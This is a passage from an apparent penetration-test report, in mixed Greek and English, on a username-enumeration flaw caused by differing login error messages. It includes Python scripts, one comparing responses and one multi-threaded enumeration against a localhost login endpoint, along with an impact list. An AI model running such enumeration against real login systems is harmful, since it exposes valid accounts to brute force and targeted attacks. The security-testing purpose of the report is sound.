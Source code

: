 Διαφορετικά error messages επιτρέπουν enumeration των valid usernames.

#### 4.4.2 Τεχνικά Βήματα Εντοπισμού & Εκμετάλλευσης

**Βήμα 1: Identify Different Responses**
```python
# Test script
import requests

# Valid username, wrong password
data1 = {"username": "admin", "password": "wrongpass"}
r1 = requests.post("http://localhost/login", data=data1)
print(f"Valid user response: {r1.text}")
# Response: "Invalid password"

# Invalid username
data2 = {"username": "notexist", "password": "test"}
r2 = requests.post("http://localhost/login", data=data2)
print(f"Invalid user response: {r2.text}")
# Response: "User not found"
```

**Βήμα 2: Automated Username Enumeration**
```python
import requests
from concurrent.futures import ThreadPoolExecutor

def check_username(username):
    data = {"username": username, "password": "test"}
    r = requests.post("http://localhost/login", data=data)
    if "Invalid password" in r.text:
        return username
    return None

# Username list
with open("usernames.txt") as f:
    usernames = f.read().splitlines()

# Multi-threaded enumeration
with ThreadPoolExecutor(max_workers=10) as executor:
    results = executor.map(check_username, usernames)
    valid_users = [u for u in results if u]
    
print(f"Valid users found: {valid_users}")
```

#### 4.4.3 Screenshots / Proof of Concept
[PLACEHOLDER: Screenshot showing different error messages]
[PLACEHOLDER: Screenshot of enumeration script output]

#### 4.4.4 Επιπτώσεις (Impact)
- **Information Disclosure:** Αποκάλυψη valid usernames
- **Targeted Attacks:** Brute force σε known users
- **Social Engineering:** Στοχευμένες επιθέσεις
- **Privacy Violation:** Αποκάλυψη registered emails

